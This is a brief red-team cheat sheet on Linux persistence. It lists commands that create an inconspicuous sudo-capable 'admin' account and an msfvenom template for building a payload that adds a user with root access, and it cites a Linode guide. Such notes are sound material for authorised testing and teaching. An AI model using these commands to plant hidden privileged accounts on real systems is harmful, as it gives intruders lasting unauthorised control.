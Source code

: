 # Living off the Land

## 01 - Create user account

```
$ useradd -M -N -r -s /bin/bash admin

$ usermod -aG sudo admin

$ passwd admin
```

## 02 - Generate a payload via `msfvenom`

```
$ msfvenom -p cmd/unix/adduser user=<username> pass=<password> rootmethod=<SUID | SUDO | NONE> [checksudoers=<true | false>]
```

---
## References

### Backlinks

- [[Usernames Examples]]

### Linode

- [Linode: Linux Red Team Persistence Techniques](https://www.linode.com/docs/guides/linux-red-team-persistence-techniques/)